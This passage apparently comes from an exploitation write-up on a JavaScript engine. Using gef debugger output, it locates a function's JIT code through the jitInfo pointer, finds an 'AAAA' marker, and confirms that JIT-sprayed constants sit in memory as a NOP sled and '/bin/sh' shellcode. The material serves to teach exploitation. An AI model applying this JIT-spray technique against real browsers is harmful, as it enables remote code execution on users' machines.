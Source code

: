 ```
1362e6600860
js>

gef➤  tele 0x1362e6600860
0x001362e6600860│+0x0000: 0x00209976a3d160  →  0x00209976a3c0a0  →  0x0056278d78d150  →  0x0056278d845433  →  "Function"
0x001362e6600868│+0x0008: 0x0056278c099088  →  <emptyObjectSlotsHeaders+8> add BYTE PTR [rax], al
0x001362e6600870│+0x0010: 0x0056278c098828  →  <emptyElementsHeader+16> add BYTE PTR [rax], al
0x001362e6600878│+0x0018: 0xfff88000000000a0
0x001362e6600880│+0x0020: 0xfffe209976a3f038
0x001362e6600888│+0x0028: 0x00209976a68150  →  0x002762b3c15cb0  →  0x0fc4f640ec8b4855
0x001362e6600890│+0x0030: 0xfffb209976a652a0
0x001362e6600898│+0x0038: 0x007f71b6cdca18  →  0x007f71b6cdc000  →  0x007f71b6c18000  →  0x0000000000000000
0x001362e66008a0│+0x0040: 0x00209976a6c1c0  →  0x00209976a3c2c8  →  0x0056278d793a90  →  0x0056278bf5b763  →  "BigUint64Array"
0x001362e66008a8│+0x0048: 0x0056278c099088  →  <emptyObjectSlotsHeaders+8> add BYTE PTR [rax], al
```

This gives us the address of the JSFunction object of the function. When we look at offset 0x28 we can see an interesting pointer to a heap region. This is the `jitInfo` pointer (`JSFunction.u.native.extra.jitInfo`) and points to the JIT code of the function at `0x002762b3c15cb0`. This is likely more than just our shellcode though since we just defined constants and its just treated as data at this point. We can disassemble at that address as code and notice that this looks like "real" instructions and not some random data:

```
x/100i 0x002762b3c15cb0

0x2762b3c15cb0:      push   rbp
0x2762b3c15cb1:      mov    rbp,rsp
0x2762b3c15cb4:      test   spl,0xf
0x2762b3c15cb8:      je     0x2762b3c15cbf
0x2762b3c15cbe:      int3
   ...
```

So let’s search for our marker and compare the pointers:

```
gef➤  grep 0x41414141
...
0x2762b3c16d90 - 0x2762b3c16d94  →   "AAAA"
...
```

We calculate: `0x2762b3c16d90 - 0x002762b3c15cb0 = 0x10E0`. This means the JIT area of this function is actually pretty big but if search forward through it we would eventually find our marker. Let’s see if the constants ended up in memory as our shellcode:

```
x/20xg 0x2762b3c16d90

0x2762b3c16d90: 0x0000000041414141      0x9090909090909090
0x2762b3c16da0: 0x732f6e69622fb848      0x66525f5450990068
0x2762b3c16db0: 0x16e8525e54632d68      0x2f6e69622f000000
...
```
